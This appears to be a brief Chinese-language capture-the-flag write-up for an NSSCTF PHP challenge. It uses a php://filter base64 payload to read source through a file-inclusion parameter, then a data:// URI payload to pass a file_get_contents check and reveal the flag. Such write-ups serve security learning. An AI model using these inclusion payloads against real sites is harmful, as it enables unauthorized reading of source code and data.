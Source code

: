 頁面寫了`hint is hear Can you find out the hint.php?` -> 網址寫了`http://node1.anna.nssctf.cn:xxxxx/index.php?wllm=`

用php -> `php://filter/convert.base64-encode/resource=hint.php` ->
`PD9waHANCi8vZ28gdG8gL3Rlc3QyMjIyMjIyMjIyMjIyLnBocA0KPz4=`
```php
<?php
//go to /test2222222222222.php
?>
```
去`http://node1.anna.nssctf.cn:xxxxx/test2222222222222.php`

```php
 <?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?> 
```

用data協議 -> `?a=data://a/plain,I want flag`

#和以前那題差不多
